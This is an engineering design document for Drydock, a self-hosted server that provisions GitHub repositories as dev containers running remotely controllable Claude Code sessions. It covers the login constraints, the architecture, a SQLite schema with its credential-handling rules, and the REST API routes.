




# Drydock

*A single-host server that turns any GitHub repository into a running dev container with a supervised, remote-controllable Claude Code session inside it — one click from a repo list, with push credentials scoped to that repo alone.*

**Status** living design document — its history is the git log (`git log -p -- docs/design/overall/drydock-design.md`).

**Runtime** single dev server, local Docker socket · **Reach** LAN, behind Caddy

**Out of scope** k3s · containerizing Drydock itself · packaging and installation

## 1. Problem & goals

Today a new agent workspace is a manual sequence: open VS Code, run *Clone Repository in Container Volume*, wait, open a terminal, start Claude Code, log in if the container is fresh, and hope the GitHub credentials that happen to be forwarded are the ones you wanted. It works, but it requires a VS Code window as the entry point, and it produces containers whose git access is whatever the SSH agent happened to be carrying.

Drydock replaces that sequence with a list and a button. The list is every repository the GitHub App is installed on. The button provisions a container, wires credentials into it, and leaves a Claude Code session running inside under Remote Control — reachable from a phone, a browser, or a laptop, with no VS Code process anywhere in the picture.

### Functional requirements

- **Repo list.** Show every eligible repository with its current Drydock state (none / cloning / running / stopped / failed).
- **Clone.** One action clones the repo to host disk, builds and starts its dev container, applies the Claude feature, and starts a session server inside it.
- **Auth surfacing.** If Claude Code in the container is not logged in, the UI shows the login URL and accepts the code the browser hands back.
- **Remote Control.** Every session registers with claude.ai so it can be driven from the Claude app; the UI links straight to it.
- **GitHub credentials.** Claude inside the container can `push`, open pull requests, and read or dispatch workflow runs — for *that repo only*.
- **Lifecycle.** Stop, restart, rebuild, and destroy a workspace; survive a server reboot without orphaning containers.
- **Service credentials.** A workspace can hold the secrets its test suite needs — a database URL, a staging API key — granted per repository rather than shared by default (§10).
- **Reachable from the house.** Usable from a laptop, phone, or tablet on the LAN — without an SSH tunnel, and without putting Drydock's own HTTP server on the network (§13).

### Non-functional targets

| Dimension | Target | Why this number |
|---|---|---|
| Operators | 1 | Single account. No tenancy and no RBAC — but authenticated, because the UI is reachable from the LAN (§13). |
| Client devices | ~5 | Laptop, desktop, phone, tablet. Each holds its own session; all revocable at once. |
| Repos in catalog | ~50 | Tens of repos today; the list is a cached GitHub App installation listing. |
| Concurrent containers | 5–15 | Bounded by dev-server RAM, not by Drydock. Enforce a configurable cap. |
| Clone → usable session | < 3 min cold | Dominated by image build. Warm rebuild should be under 30 s. |
| Availability | Best effort | A home dev server. Restart-safe matters far more than uptime. |
| Secret at rest | App private key only | Everything else is minted on demand and expires within the hour. |

### Non-goals

- **Not a VS Code replacement.** The existing *clone into container* workflow stays untouched and separate. Drydock containers are headless-first; attaching an editor later is a convenience, not a design driver.
- **Not scheduled across the home lab.** One host, one Docker daemon. §3 keeps an orchestration seam, but k3s is explicitly deferred.
- **Not CI.** Drydock does not run tests on push or react to webhooks beyond refreshing its repo list.
- **Not containerized itself.** Drydock runs directly on the dev server as a supervised service. It creates containers; it does not live in one. Doing so would buy no isolation — a process holding the Docker socket is host-equivalent either way — while forcing every path Drydock hands to Docker to resolve identically inside and outside its own mount namespace, a constraint whose only purpose is to undo the container.
- **Not a packaging or installation spec.** How Drydock and its runtime dependencies reach the host, how they are upgraded and rolled back, and how the process is supervised are deliberately deferred to a separate document. This one assumes the binary is running, the Docker socket is reachable, and its credentials have been supplied. The front door's part of that now exists as `deploy/install.sh` — the binary, a systemd unit, Caddy's configuration and group membership, upgrade in place with rollback — and the README documents it; Docker, the `devcontainer` CLI, and the App key and master key files are still that separate document's to settle.
- **Not a scheduler, and not an idle reaper.** Nothing stops a workspace automatically. Fifteen idle containers is real memory, but automatic stopping would have to distinguish “idle” from “an agent thinking”, and getting that wrong destroys work. Capacity is managed by hand: a cap that refuses new workspaces, a stop button, and enough on the card to know what to stop. Cheap to live with because stopping is not destructive — the clone and its worktrees survive, so restarting costs a container start (§14).
- **Not a certificate manager.** Issuing, renewing, and delivering the TLS certificate to Caddy is handled by existing automation. Drydock depends on the result (§13.1) and owns none of the mechanism.
- **Not a terminal multiplexer.** The UI shows status and the login handshake. Interactive work happens through Remote Control, not through a web terminal.

## 2. Binding constraints

Four facts about Claude Code shape this design more than any architectural preference. They are worth stating before the boxes and arrows, because two of them rule out the obvious implementation.

### 2.1  Remote Control requires a full login, not a token

> [!WARNING]
> **Load-bearing constraint**
>
> A long-lived token from `claude setup-token` / `CLAUDE_CODE_OAUTH_TOKEN` **can only make model requests**. It cannot establish a Remote Control session. The documentation is explicit: run `claude auth login` for a full-scope session token instead.

This kills the design most people reach for first — mint one token, bake it into the image, never think about auth again. Drydock must instead carry a real `/login` credential into every container, which is why §7 exists at all and why it is the most intricate part of the system.

Two related constraints ride along:

- `ANTHROPIC_BASE_URL` must be unset or pointed at `api.anthropic.com`. Any gateway or proxy disables Remote Control.
- `DISABLE_TELEMETRY`, `DO_NOT_TRACK`, `CLAUDE_CODE_DISABLE_NONESSENTIAL_TRAFFIC`, and `DISABLE_GROWTHBOOK` each disable the feature-flag evaluation Remote Control depends on. The Drydock feature must actively *ensure these are unset* in the container, including in any `settings.json` `env` block it writes.

### 2.2  Container login is a two-way handshake, not a URL

Inside a container the browser cannot reach Claude Code's local callback server. The documented behavior for exactly this case: the browser displays a login *code*, and the user pastes it back at the `Paste code here if prompted` prompt. So the flow is not “show the user a URL and wait” — it is:

1. Drydock starts `claude` in the container attached to a PTY it owns.
2. It reads the login URL off that PTY and renders it in the UI.
3. The user authorizes in their own browser and receives a code.
4. The user pastes the code into the Drydock UI.
5. Drydock writes that code back into the PTY's stdin and waits for `Login successful`.

Steps 2 and 5 mean screen-scraping a TUI. That is the single most brittle dependency in the system, and §12 treats it as such.

### 2.3  Credentials live in one relocatable file

On Linux the credential is `~/.claude/.credentials.json`, mode `0600`, and it moves with `CLAUDE_CONFIG_DIR`. That relocatability is the hook Drydock hangs the whole auth story on (§7) — and it is the same hook already in use for per-container Claude config, so the pattern is familiar rather than novel.

**One file is not enough, though.** [Spike 02](../spikes/02-rc-restart.md) found that Remote Control eligibility depends on the `oauthAccount` record in a *second* file in the same directory, `.claude.json`, which also holds the workspace-trust and consent flags a headless start needs. Relocating `CLAUDE_CONFIG_DIR` still carries everything, so §7.1's shared volume is unaffected — but "the credential is one relocatable file" is the wrong mental model for what has to travel, and acting on the narrow version is what makes a copied credential fail in a way that looks like a Drydock bug.

### 2.4  Logins expire, and unattended sessions die when they do

Claude Code warns three days out and `/status` reports an `Expired` state. The docs call out this exact scenario: a Remote Control session that outlives its login *stops making progress and cannot recover* until someone signs in again. Drydock is a machine for creating long-lived unattended sessions, so credential expiry is a first-class monitored condition, not an edge case.

> [!NOTE]
> **Which expiry the file records.** `.credentials.json`'s `claudeAiOauth.expiresAt` dates the **access token**, and a real one lives about **eight hours**: on the owner's first real sign-in (v0.4.4, 8 October 2026) it was about eight hours out. Claude Code renews a lapsed access token from the refresh token beside it by itself, under the volume's refresh lock — [Spike 00](../spikes/00-shared-credential-volume.md)'s harness seeds exactly that, `expiresAt` an hour in the past, and every container refreshes. A login that really is over — the refresh token rejected — is not "expired" on disk but **blanked** (§7.1). So the stored `expired` (§7.3) means "the access token has lapsed and the next Claude Code to use the volume renews it", and it stops nothing.
>
> **The login's own end is a second field.** Claude Code `2.1.289` writes `refreshTokenExpiresAt` beside the tokens at every login — the token endpoint's `refresh_token_expires_in` when it sends one, and otherwise thirty days, Claude Code's own default — and a refresh replaces it only when the server sends a new figure. The three-day warning above is computed from that field and nothing else: the shipped binary's `oauth-expiry` notice (*"Your login expires in N days · run /login to renew"*) fires when `refreshTokenExpiresAt` is at most three days away and not yet past, unless `expiresAt` is more than three days beyond it. Read out of the binary, as Spike 00's lock was; no real credential was read for it. Whether the owner's server sends `refresh_token_expires_in`, or the thirty days is Claude Code's guess, is not yet known (§15.1).

### 2.5  What the tooling gives us for free

| Capability | Mechanism | Note |
|---|---|---|
| Inject a feature not in `devcontainer.json` | `devcontainer up --additional-features` | Since CLI v0.18.0. Not written to the lockfile as of v0.86.1 — but its `dependsOn` Features are, and a lockfile entry for it is still *read*, measured on 0.89.0. So Drydock's Feature has no `dependsOn`, and an in-sync lockfile stays byte for byte (§6, "The repository's lockfile"). |
| Find a container again after restart | `--id-label drydock.workspace=<id>` | Label is the durable handle; container IDs are not. |
| Pass secrets without baking them in | `--secrets-file <json>` | Available for `up` and `run-user-commands`. |
| Extra mounts / env | `--mount`, `--remote-env` | How the credential volume and the broker socket get in. |
| Machine-readable result | One JSON object on **stdout**, always — no `--json` flag exists. Success: `{"outcome":"success","containerId","remoteUser",…}`; failure: `{"outcome":"error","message","description"}`, plus `containerId` if one was created. | Parse it; never scrape `docker ps`. Logs go to stderr. |
| Repo-scoped GitHub tokens | `POST /app/installations/:id/access_tokens` | 1-hour TTL, scopable by `repository_ids` *and* a `permissions` subset. |

## 3. Architecture

A single Go binary on the dev server, a SQLite file beside it, the Docker socket, and Caddy out front. Everything else is a subprocess or an HTTP call. The two pieces that are more than glue are the **session supervisor**, which owns long-lived PTYs, and the **token broker**, which is the only component that ever holds a GitHub credential.

One structural rule shapes the picture below: **Drydock binds no TCP port.** It listens on a Unix socket, Caddy is the single process holding a LAN-facing listener, and the token broker listens on per-container sockets. The same mechanism that keeps a container from asking about another container's repo also keeps everything but Caddy from reaching the API at all. §13 covers what that buys.

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="diagrams/01-architecture-dark.svg">
  
</picture>

**Fig 1** — *Every arrow into the system is a Unix socket except the one at the top. Caddy owns the only LAN-facing port; Drydock itself binds no TCP address, and the token broker binds none either — so the socket a request arrives on *is* the claim of who is asking and which repo they may touch. The container talks to Anthropic and GitHub directly; Drydock is not in the data path.*

### 3.1  Component responsibilities

| Component | Owns | Explicitly does not |
|---|---|---|
| **Caddy** | The only LAN listener. TLS termination with a real certificate, strict host matching, forwarding to Drydock's Unix socket. | Know anything about Drydock. It is a dumb, well-audited front door, not an auth layer. |
| **API server** | REST endpoints, SSE event stream, serving the UI, session authentication (§13.2). | Bind a TCP port. Talk to Docker or GitHub directly. |
| **Repo catalog** | Cached listing from `GET /installation/repositories`, refreshed on demand and every 15 min. | Store any GitHub token. |
| **Workspace manager** | Host-side clone directory per workspace, branch state, disk reclamation. | Know anything about containers. |
| **Container manager** | Every `devcontainer` invocation; label-based reconciliation against the Docker daemon on boot. | Hold long-lived processes. |
| **Session supervisor** | The `claude remote-control` process per workspace, its PTY, restart backoff, log ring buffer, the login handshake. | Parse GitHub anything. |
| **Token broker** | The App private key, JWT signing, installation-token minting and caching, the per-container socket listener. | Have an HTTP surface on the network. |

### 3.2  Choices worth defending

- **Language** — **Go, single static binary.** Long-lived supervised subprocesses, PTYs, and Unix socket servers are all first-class; deployment is one file plus a systemd unit.
- **Store** — **SQLite, WAL mode.** One writer, tens of rows. A Postgres container here would be more infrastructure than the thing it stores.
- **Container driver** — **Shell out to `devcontainer`.** Reimplementing feature resolution and lifecycle commands against the Docker API is months of work and drifts from the spec.
- **Clone location** — **Host bind-mount, not a container volume.** Backups, `grep`, and disk accounting all keep working, and a rebuild does not risk the working tree.
- **Front door** — **Caddy on `:443`, Drydock on a socket.** LAN reach without exposing Drydock's own HTTP stack, and TLS handled by software whose job that is.
- **Live updates** — **SSE, not WebSockets.** Traffic is server→client status only; the one client→server push (the login code) is an ordinary POST. Caddy proxies it without buffering.
- **Orchestration seam** — **A `Runtime` interface.** One implementation today. Enough to make a future k3s backend a port rather than a rewrite — and no more.

> [!NOTE]
> **Why bind-mount the clone**
>
> The existing VS Code flow uses container volumes with `${devcontainerId}`-derived names. Drydock deliberately diverges: it needs to inspect and reclaim working trees from outside the container, and it needs a clone to survive `--remove-existing-container`. Host directories give both. The Claude *config* directory still uses a named volume (§7) — different data, different lifetime, different answer.

## 4. Data model

Eighteen tables: the fifteen below, and `config_approval`, `forwarded_port` and `preview_session`, described at the end of this section. The authority is `internal/store`'s golden schema (`testdata/schema.golden`), and `test/docs` fails when a table there goes unnamed here. The design rule throughout: **Drydock stores no credential that is not the App private key**, and every mutable container fact is treated as a cache that can be rebuilt by reconciling against Docker labels.

```bash
-- Exactly one row, written at first run. The workspace label prefix this
-- database's containers carry; a later start with another one is refused
-- (§6, §13.5), since adoption and deletion are by label.
instance(
  id INTEGER PRIMARY KEY CHECK (id = 1),
  label_prefix TEXT NOT NULL,
  created_at TEXT NOT NULL
)

-- Exactly one row. Set by the `drydock passwd` CLI, never by an HTTP route.
operator(
  id INTEGER PRIMARY KEY CHECK (id = 1),
  password_hash TEXT NOT NULL,   -- argon2id, params stored in the encoded hash
  updated_at TEXT
)

-- One row per signed-in device. The cookie value is never stored.
auth_session(
  id TEXT PRIMARY KEY,           -- sha256 of the cookie's random token
  label TEXT,                    -- user-agent digest: "iPhone", "Mac Firefox"
  created_ip TEXT,               -- from Caddy, trustworthy because of the socket
  created_at TEXT,
  last_seen_at TEXT,
  absolute_expires_at TEXT       -- hard ceiling; idle timeout is derived from last_seen
)

-- Failed sign-in attempts, for lockout and for the "who tried" view.
auth_attempt(
  id INTEGER PRIMARY KEY AUTOINCREMENT,
  source_ip TEXT, outcome TEXT,  -- ok | bad_password | locked_out
  at TEXT
)

-- Cached from the GitHub App installation. Refreshable, never authoritative.
repository(
  id INTEGER PRIMARY KEY,      -- GitHub repo id, stable across renames
  installation_id INTEGER NOT NULL,
  full_name TEXT NOT NULL,     -- krelinga/foo
  default_branch TEXT NOT NULL,
  has_devcontainer INTEGER,    -- probed; drives a badge, not a filter. NULL = unknown
  private INTEGER, archived INTEGER,
  pushed_at TEXT, refreshed_at TEXT,
  removed_at TEXT              -- the installation dropped it, but a workspace still
                               -- holds it (§12); otherwise the row is deleted, and
                               -- it is deleted when that workspace is: by its
                               -- delete (announced in that commit as
                               -- repo.removed), or by the next refresh
)

-- The accounts the App is installed on. Kept for the settings link the UI
-- gives when a repository is missing (§9.4): it differs for users and orgs.
installation(
  id INTEGER PRIMARY KEY,
  account TEXT NOT NULL, account_type TEXT NOT NULL,  -- User | Organization
  refreshed_at TEXT NOT NULL
)

-- One per clone. The unit the UI operates on.
workspace(
  id TEXT PRIMARY KEY,         -- ULID; also the devcontainer id-label value
  repository_id INTEGER NOT NULL REFERENCES repository(id),
  host_path TEXT NOT NULL,     -- /srv/drydock/ws/<id>/repo
  branch TEXT NOT NULL,
  config_path TEXT,            -- resolved .devcontainer/devcontainer.json
  state TEXT NOT NULL,         -- pending|cloning|building|running|stopped|failed|deleting
  state_detail TEXT,
  container_id TEXT,           -- cache; reconciled from labels at boot
  remote_user TEXT,
  environment_id TEXT,         -- env_… advertised by the remote-control server (§8);
                               -- survives restart, and is the card's only link
  created_at TEXT, last_active_at TEXT
)

-- The supervised `claude remote-control` process. One live row per workspace.
-- This is a process, not a conversation; the states below are process states.
supervisor(
  id TEXT PRIMARY KEY,
  workspace_id TEXT NOT NULL REFERENCES workspace(id),
  state TEXT NOT NULL,         -- starting|waiting_registration|awaiting_login|
                               -- serving|degraded|exited  (§8: a 409 is a wait,
                               -- and must be distinguishable from a failure)
  pid INTEGER, restart_count INTEGER DEFAULT 0,
  capacity INTEGER NOT NULL,   -- what --capacity was set to for this process
  last_error TEXT,
  started_at TEXT, last_heartbeat_at TEXT
)

-- Conversations the server is serving. Many per supervisor, created from
-- claude.ai or the phone — never by Drydock. Observed, not owned; starts empty.
-- Deliberately thin: this feeds a count and one link, not a session browser (§8).
rc_session(
  id TEXT PRIMARY KEY,         -- the id from the claude.ai/code/<id> URL
  supervisor_id TEXT NOT NULL REFERENCES supervisor(id) ON DELETE CASCADE,
  name TEXT,
  is_primary INTEGER,          -- the pre-created one in /workspace; its URL is the card link
  first_seen_at TEXT, last_seen_at TEXT
)

-- Not the credential. Just what we know about it, for expiry warnings.
claude_identity(
  id INTEGER PRIMARY KEY CHECK (id = 1),
  volume_name TEXT NOT NULL,   -- shared credential volume
  account_email TEXT,
  logged_in_at TEXT,
  state TEXT NOT NULL,         -- ok|expiring|expired|blanked|absent (§7.3)
  expires_at TEXT,             -- claudeAiOauth.expiresAt: the ACCESS token's, ~8 h; decides only `expired`
  login_expires_at TEXT,       -- claudeAiOauth.refreshTokenExpiresAt: the login's; drives the renewal nag (migration 7)
  last_checked_at TEXT
)

-- Short-lived, in-memory-first; the row records that a token was served. It is
-- written before the token is: a token whose row cannot be written is refused
-- (unavailable) and its write retried on the next request (§9).
token_grant(
  id TEXT PRIMARY KEY,
  workspace_id TEXT NOT NULL,
  repository_id INTEGER NOT NULL,
  permissions TEXT NOT NULL,   -- json, the subset actually requested
  issued_at TEXT, expires_at TEXT,
  requested_by TEXT            -- "git-credential" | "gh" | "api"
)

-- Values are ciphertext. Nothing here is readable back through the API.
secret(
  id TEXT PRIMARY KEY,
  name TEXT NOT NULL UNIQUE,     -- also the env var name; [A-Z_][A-Z0-9_]*
  ciphertext BLOB NOT NULL,      -- xchacha20-poly1305, AAD = id
  nonce BLOB NOT NULL,
  reach TEXT NOT NULL,           -- required prose: what can someone do with this?
  description TEXT,
  all_repos INTEGER DEFAULT 0,   -- widens every repo at once; the UI says so
  inject_hosts TEXT,             -- unused; reserved for §10.5
  created_at TEXT, rotated_at TEXT
)

-- Default deny lives here: no row, no secret. A repository the catalog drops
-- takes its grants with it; one that comes back is granted nothing. Held by a
-- workspace at the drop, it keeps them while that workspace lives (§12) and
-- loses them with the row, when the workspace is deleted.
secret_grant(
  secret_id TEXT NOT NULL REFERENCES secret(id) ON DELETE CASCADE,
  repository_id INTEGER NOT NULL REFERENCES repository(id),
  granted_at TEXT,
  PRIMARY KEY (secret_id, repository_id)
)

-- Answers "which workspaces ever held this?" after a key leaks somewhere.
-- One row per secret per GET-SECRETS, so per Bash command (§10.3); indexed
-- on (secret_id, workspace_id, at). No foreign key: it outlives the secret.
secret_access(
  id INTEGER PRIMARY KEY AUTOINCREMENT,
  secret_id TEXT NOT NULL, workspace_id TEXT NOT NULL,
  at TEXT
)

-- Append-only. Feeds the SSE stream and the per-workspace activity view.
event(
  id INTEGER PRIMARY KEY AUTOINCREMENT,
  workspace_id TEXT, level TEXT, kind TEXT,
  message TEXT,                -- for a human; nothing parses it
  data TEXT,                   -- a JSON object the frontend's reducer applies
  at TEXT
)
```

Three columns exist for the opposite reason — because a state the prose requires and the schema cannot hold is a state that gets inferred differently by every reader. `claude_identity.state` carries the five-way verdict §7.3 needs, including the *blanked* case that cannot be derived from `expires_at` alone; `workspace.environment_id` holds the durable handle §8 settled on; and `supervisor.state` has a `waiting_registration` value so the `409` wait in §8 is not stored as a failure. Each is written from one classifier and read everywhere.

Four notes on what is deliberately absent. There is no plaintext secret value — and no route that returns one, which is why the schema has no `value` column to be tempted by. There is no plaintext session token — `auth_session.id` is the SHA-256 of the cookie value, so a stolen database file yields no usable cookie. There is no `github_token` column — tokens live in a bounded in-memory cache keyed by `(workspace_id, permission_set)` and are dropped at their expiry. And `token_grant` records that a token was issued and to whom, never the token itself, so the table is safe to read, export, and keep.

*Previews ([port forwarding](../port-forwarding/port-forwarding-design.md) §5), migration 8:* `forwarded_port`, a permission to reach one port on one workspace, retired rather than deleted so its globally `UNIQUE` slug is never reissued — with no foreign key to `workspace`, since a cascade would delete the row and free the slug, so a workspace's removal retires its ports instead — and `preview_session (id, auth_session_id, forwarded_port_id, preview_host, created_at, last_seen_at)`, whose `id` is the SHA-256 of the preview cookie, never the cookie, and which cascades from `auth_session`. The one-time token that becomes a preview session is never stored at all.

*Host-access approvals (§6), migration 6:* `config_approval (id, repository_id, hash, settings, workspace_id, approved_by, approved_at, superseded_at)` — every approval of a repository's host-access subset, the newest unsuperseded one current; a new approval supersedes rather than deletes, and a repository the catalog drops has its current one superseded, as its grants are deleted. `approved_by` is the approving session's `auth_session.id`, a SHA-256. And `workspace.pending_approval`: the request a stopped workspace waits on (the subset, its hash, the difference from the approved one, and the stopped run's `--remove-existing-container`), cleared by any move.

## 5. API surface

REST over a Unix socket, plus one SSE stream. Every mutating call is asynchronous: it validates, writes a state transition, returns `202` with the workspace, and lets the client follow along on the stream. Nothing blocks on a container build.

**Every route below except `POST /api/auth/session` requires a valid session cookie** — enforced by middleware that wraps the whole mux, so a new handler is protected by default rather than by remembering to protect it. Every state-changing route additionally checks `Origin` (§13.3).

> [!WARNING]
> **One route is open, not three — and "gated" has three shapes**
>
> Draft v7 and earlier said *"except the three auth routes"*, meaning the three `/api/auth/session` verbs. That was wrong, and wrong in a way that mattered: `GET /api/auth/session` returns **the list of signed-in devices**, so an unauthenticated `200` there hands an attacker the operator's device inventory — and the frontend depends on that route answering `401` when signed out, since a `401` from anywhere is its authoritative "you are signed out now" ([frontend](../frontend/frontend-design.md) §2.2, §4.4). §13.5's non-negotiable is the correct statement: **the sign-in POST is the only unauthenticated route**, and it is the rate-limited one.
>
> What the correction exposed is that the gate is not one-shaped. Implementing the route table found three:
>
> | Gate | No credential ⇒ | Used by |
> |---|---|---|
> | **required** | `401` + the error envelope | every API route but one |
> | **redirect** | `302` to sign-in carrying `?return=` | `GET /preview/authorize` only |
> | **none** | the handler runs | `POST /api/auth/session` only |
>
> `GET /preview/authorize` needs the middle one because it is a *cross-site top-level navigation* ([port forwarding](../port-forwarding/port-forwarding-design.md) §7 step 3), not a `fetch`: a browser following that redirect with no session must land on a sign-in form that returns it afterwards, and a `401` there is a dead end the operator cannot act on. The preview mux's `/.drydock/session` is a fourth case that is not a session gate at all — it is gated by the single-use token, because the session cookie is host-only and cannot reach a preview origin.
>
> So the invariant to hold is **"every route but one is gated before its handler runs"**, which is what the meta-tests assert, rather than "every route but one returns `401`".
>
> One ordering detail from the same work, because it is a leak rather than a style question. Routes a later phase owns are declared in the table with no handler and answer `501`. **The auth gate must run before that `501`** — otherwise an unauthenticated caller can tell a declared route from a nonexistent one and read the API surface off a server it cannot use.

| Method & path | Does | Returns |
|---|---|---|
| `POST /api/auth/session` | Sign in. Body: `password`. Rate-limited and lockout-guarded (§13.2). When bad passwords were tried since the last successful sign-in, the answer is `200 {failed_attempts, failed_sources}` instead, once (§12, *Repeated failed sign-ins*). | `204` + cookie, or `200` |
| `GET /api/auth/session` | Current session plus the list of signed-in devices. | Session list |
| `DELETE /api/auth/session` | Sign out. `?all=true` revokes every device at once. Either way every preview session the revoked sessions minted goes with them, by `preview_session`'s cascade ([port forwarding](../port-forwarding/port-forwarding-design.md) §5), so an open preview is refused on its next request. | `204` |
| `GET /api/repos` | Every repo in the installation with its workspace state joined in. Repos without a `devcontainer.json` are listed and badged, not hidden (§6) — and `has_devcontainer` is `null` when the probe has not answered, never a default `false`. Carries each installation's settings URL (§9.4), `refreshed_at`, and `last_refresh_error` — the most recent refresh's failure, null once one succeeds — so a page loaded after the `repo.refresh_failed` event still learns of it. Without a configured App, `503 app_not_configured` rather than an empty list, which would read as "installed on nothing". | Repo list |
| `POST /api/repos/refresh` | Re-read the installation listing from GitHub. One refresh runs at a time, and a request is answered only by one that begins after it: a request during a refresh gets one more after it, which every request meanwhile shares. The outcome arrives as `repo.refreshed` or `repo.refresh_failed`. | `202` |
| `GET /api/workspaces` | Every workspace with a row, `deleting` included, newest first — each as the view below without its events. Added in Phase 2: the home list's join in `GET /api/repos` has no place for a workspace whose repository the installation dropped (§12), nor for a second workspace of one repository. Beside the list, `capacity`: the concurrent-container cap (`null` with none) and how many of *these rows* hold a slot, counted by `workspace.Occupying` — the rule create, start and rebuild are refused by, which the SQL in both of those checks is built from. Counted from the listed rows rather than by a second query, so the number and the list are one snapshot, and a client that counts the list by the same rule gets the same number; the UI keeps it live that way, from `workspace.state` events, with no capacity event (frontend §4.5 #17). Phase 6 adds `disk`: the workspace filesystem as the sampler last read it, `{used_bytes, total_bytes, limit_percent, over, at, round, boot}`, or `null` before its first round (§6 *Resources*). | `{"workspaces": [...], "capacity": {"cap", "occupied"}, "disk"}` |
| `POST /api/workspaces` | **The clone button.** Body: `repository_id`, optional `branch` (default: the repository's `default_branch`). Runs §6's eight steps in the background. Refusals: `404 not_found` for a repository unknown or no longer in the installation, `409 in_progress` when the repository already has a workspace in *any* state — one repository, one workspace, until delete: a stopped or failed workspace still holds the clone and comes back by `start`, and a second clone of the same repository is the wasted build and confusing list frontend §4.5 #3 is about; a `deleting` one is still removing its clone, and a create waits rather than racing it — `409 at_capacity` at the concurrent-container cap (its `detail` names the cap, *"The cap is 10."*, here and on start and rebuild), `503 app_not_configured` with no App, `400 bad_request` for a malformed body or a branch the clone would refuse, and `507 disk_full` — here and on start, rebuild and an approval — while the workspace filesystem is at or above the disk limit (§12; the `detail` names both percentages). | `202 {"id"}` |
| `GET /api/workspaces/:id` | The view — `id`, `repository_id`, `full_name`, `branch`, `state`, `state_detail` and `container_id` (each `null` when unset), `created_at`, and `steps`: the latest `workspace.step` event per step, `{status, detail?, at}`, and `last_action`: the latest `workspace.action` event, `{action, step, status, detail?, at}` or `null` — the list carries both, so a card loaded from it alone can name the sub-step a failed stop stopped at without parsing `state_detail` — plus `events`, its 50 most recent, newest first, in the stream's own shape. Phase 5 adds `environment_id`, `supervisor` (the latest `supervisor.state` event's data — `{state, from, reason, detail, restart_count, at}` — or `null`) and `session` (the latest `session.status` event's — `{environment_id, url, capacity_used, capacity_total, sessions, at}` — or `null`); the list carries them too. Phase 6 adds `resources`, here and in the list: `{round, boot, memory, disk}` from the sampler's memory, never the database — `memory` `{bytes, at, container_id, stale}` while the container runs, `disk` `{bytes, directory_bytes, container_bytes, partial, at, stale}`, each `null` when there is no reading, and the whole `null` for a workspace never measured (§6 *Resources*). | Workspace |
| `GET /api/workspaces/:id/logs?tail=n` | The supervisor's ring buffer (§8), redacted, never persisted. Listed here rather than only in the note below because the route table in code declares it, and the two are meant to be diffable by eye. *As built:* `{lines: [{n, at, text}], truncated, held}` — `tail` from 1 to 5000, default 200; `held` is `false` when Drydock holds no log for the workspace (none started since Drydock did), which is not an empty log. | Log lines |
| `GET /api/workspaces/:id/build-log` | The last 50 lines of the latest failed `devcontainer up` (§12, *Image build fails*): `{lines, at, held}`, `held` false when Drydock holds none — no failed build since it started, or a later `up` began. Held in memory, masked when served, never persisted; `withheld` (no lines) when the values to mask it of cannot be read. | Build log |
| `POST /api/workspaces/:id/start` | `devcontainer up` on an existing clone: §6 from step 3, or from step 2 when the workspace failed before its clone finished. Only a `stopped` or `failed` workspace starts; anything else, or one already starting, is `409 in_progress`. A start takes a container slot, so at the cap it is `409 at_capacity`, like a create; the check and the move out of `stopped`/`failed` happen together, so a create a moment later counts it. From `stopped`, `up` reattaches to the stopped container — which is what makes a start cheap; from `failed` it passes `--remove-existing-container` (Phase 6), because a failed workspace's container, if it has one, is one whose `up` or probe did not succeed, and `up` without the flag reattaches to it and reports success. | `202 {}` |
| `POST /api/workspaces/:id/stop` | Stop the supervisor, then the container, then close the broker socket; `running` → `stopped`. Ends every live session; the clone and its worktrees survive, so starting again is cheap. Only a `running` workspace with nothing in flight stops — anything else, a build included, is `409 in_progress` (§6, *Stop, rebuild, delete*). A stopped workspace holds no slot. A stop that fails leaves the workspace `running` with a `state_detail` naming the sub-step; asking again clears it as the new stop starts. | `202 {}` |
| `POST /api/workspaces/:id/rebuild` | `up --remove-existing-container` through §6 from step 3 (step 2 for a failed clone): a new container, the clone surviving. From `running`, `stopped` or `failed`; mid-provision, busy or `deleting` is `409 in_progress`. A running workspace already holds its slot; a stopped or failed one at the cap is `409 at_capacity`. | `202 {}` |
| `DELETE /api/workspaces/:id` | Every container carrying the label, the broker socket, `/srv/drydock/ws/<id>/` (clone and `.drydock/`), then the row. Requires `?confirm=<full_name>`, compared exactly — missing, a near miss or a different case is `400 confirm_mismatch`. A delete during provisioning cancels the run and waits for it; deleting a workspace already `deleting` is a `202` that lets the delete in flight finish, or resumes one that stopped part-way. | `202 {}` |
| `POST /api/workspaces/:id/config-approval` | Approve the host-access request a stopped workspace waits on (§6, *What a configuration may ask of the host*). Body `{"hash"}`: the request's hash as the operator was shown it. Recorded per repository in `config_approval` with the session that approved it, superseding (never deleting) the last, and announced as `config.approved` `{repository_id, hash}`; then the stopped start or rebuild continues from step 3 under the cap. `409 approval_stale` when the hash is not the pending request's — nothing approved; `409 approval_not_pending` when the workspace is not waiting; `409 at_capacity`, `409 in_progress` as for start. Settled by the run it continues leaving its build. | `202 {}` |
| `DELETE /api/workspaces/:id/config-approval` | Decline it: the request is dropped, the workspace stays `stopped` with a sentence saying so (a `workspace.state` event with no request), nothing is recorded, and the next start asks again. `409 approval_not_pending`, `409 in_progress`. | `202 {}` |
| `POST /api/workspaces/:id/supervisor` | Start or restart the `remote-control` server process. A restart ends every session it was serving (§8). *As built:* a job under the provisioner's one-per-workspace ownership, so a stop or rebuild asked meanwhile is `409 in_progress` and a delete cancels it; only a `running` workspace with nothing in flight is accepted (`409 in_progress` otherwise). A restart is a stop — SIGTERM first — then a start with a fresh restart budget. | `202` |
| `GET /api/secrets` | Names, reach, grants, last access, and whether what is stored can be delivered. **Never values.** | Secret list |
| `PUT /api/secrets/:name` | Create, rotate, or change the prose. Body: `value` (required to create; absent keeps the stored one), `reach` (required), `description`. Rejects reserved names (§10.1). With `If-None-Match: *` it is a create only: a stored name is `412 secret_exists` and nothing is written. | `200` + stale workspaces |
| `DELETE /api/secrets/:name` | Remove it and every grant. | `204` |
| `PUT /api/secrets/:name/grants` | Set which repositories may receive it. Body: `repository_ids`, `all_repos`. | `200` |

